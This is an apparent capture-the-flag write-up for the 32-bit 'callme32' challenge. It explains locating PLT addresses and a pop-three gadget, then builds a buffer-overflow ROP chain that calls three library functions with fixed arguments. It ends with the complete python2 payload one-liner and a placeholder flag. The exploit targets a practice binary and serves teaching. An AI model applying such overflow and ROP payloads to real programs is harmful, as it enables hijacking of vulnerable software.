# callme32
According to the descrption, we need to call the functions callme_one, callme_two, callme_three with three arguments in specific order.

Hint also tells that we need to call the functions through plt(procedure linkage table).

Check the security:
```
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```
PIE is disabled, the we are able to use ret2function or rop.

Use ghidra to track the assembly code, and we will find that the program does not call functions callme_one, callme_two, callme_three. 

These functions are included from shared library, and their function address is stored in the plt table. We can find their function address in plt.
```
...
Breakpoint 3 at 0x80484f0 (callme_one@plt)
Breakpoint 4 at 0x80484e0 (callme_three@plt)
Breakpoint 5 at 0x8048550 (callme_two@plt)
...
```
We obtain three function address, before calling them we need to set the arguments properly.

Hint has told us that these functions need three parameters, which are 0xdeadbeef, 0xcafebabe, and 0xd00df00d.

x86 use stack to pass function arguments, therefore, we need to push three arguments into stack, then the function call will be:
```
0x80484f0 (callme_one@plt) + 0xdeadbeef + 0xcafebabe + 0xd00df00d 
0x8048550 (callme_two@plt) + 0xdeadbeef + 0xcafebabe + 0xd00df00d 
0x80484e0 (callme_three@plt) + 0xdeadbeef + 0xcafebabe + 0xd00df00d 
```
However, if we use this format directly, we will get segmentation fault. 

This is because we do not pop the stack correctly. For a function call, we need to push and pop the function arguments by ourselves. Pattern upward we do not pop argumnents out the stack, then the next return address will be wrong.

Therefore, we need to pop the argument out for every function call:
```
0x80484f0 (callme_one@plt) + (pop arguments) + 0xdeadbeef + 0xcafebabe + 0xd00df00d 
0x8048550 (callme_two@plt) + (pop arguments) + 0xdeadbeef + 0xcafebabe + 0xd00df00d 
0x80484e0 (callme_three@plt) + (pop arguments) + 0xdeadbeef + 0xcafebabe + 0xd00df00d 
```
We check three functions in libcallme32.so using ghidra, we find that function callme_one, callme_two, callme_three obtaining the argument by:
```
...
int               Stack[0x4]:4   param_1                                 XREF[1]:     00010768(R)  
int               Stack[0x8]:4   param_2                                 XREF[1]:     00010775(R)  
int               Stack[0xc]:4   param_3                                 XREF[1]:     00010782(R)  
...
```
This means that the function actually get the arguments from sp+4, sp+8, sp+12, where sp+0 we can use it to do pop operation.

We find the proper gadget using rop command in gdb-peda, since we have three arguments, we need a pop three-times gadget, or three one-time pop gadget.  
```
...
0x080487f9 : pop esi ; pop edi ; pop ebp ; ret
...
```
We find a proper gadget, then the payload will be:
```
0x80484f0 (callme_one@plt) + 0x080487f9  + 0xdeadbeef + 0xcafebabe + 0xd00df00d 
0x8048550 (callme_two@plt) + 0x080487f9  + 0xdeadbeef + 0xcafebabe + 0xd00df00d 
0x80484e0 (callme_three@plt) + 0x080487f9 + 0xdeadbeef + 0xcafebabe + 0xd00df00d 
```
Now, we can build whole payload.

First, same as problems before, the overflow buffer is 40 bytes, and rbp register is 4 bytes.
```
'A' * 40 + 'A' * 4
```
We jump to the function, and after function finished, jump to gadget address to pop the arguments. 
```
'\xf0\x84\x04\x08' + '\xf9\x87\x04\x08' + '\xef\xbe\xad\xde' + '\xbe\xba\xfe\xca' + '\x0d\xf0\x0d\xd0' + '\x50\x85\x04\x08' + '\xf9\x87\x04\x08' + '\xef\xbe\xad\xde' + '\xbe\xba\xfe\xca' + '\x0d\xf0\x0d\xd0' + '\xe0\x84\x04\x08' + '\xf9\x87\x04\x08' + '\xef\xbe\xad\xde' + '\xbe\xba\xfe\xca' + '\x0d\xf0\x0d\xd0'
```
Finally, the whole payload will be:
```
python2 -c "print 'A'*44 + '\xf0\x84\x04\x08' + '\xf9\x87\x04\x08' + '\xef\xbe\xad\xde' + '\xbe\xba\xfe\xca' + '\x0d\xf0\x0d\xd0' + '\x50\x85\x04\x08' + '\xf9\x87\x04\x08' + '\xef\xbe\xad\xde' + '\xbe\xba\xfe\xca' + '\x0d\xf0\x0d\xd0' + '\xe0\x84\x04\x08' + '\xf9\x87\x04\x08' + '\xef\xbe\xad\xde' + '\xbe\xba\xfe\xca' + '\x0d\xf0\x0d\xd0'" | ./callme32
```
We obtain the flag:
```
ROPE{a_placeholder_32byte_flag!}
```

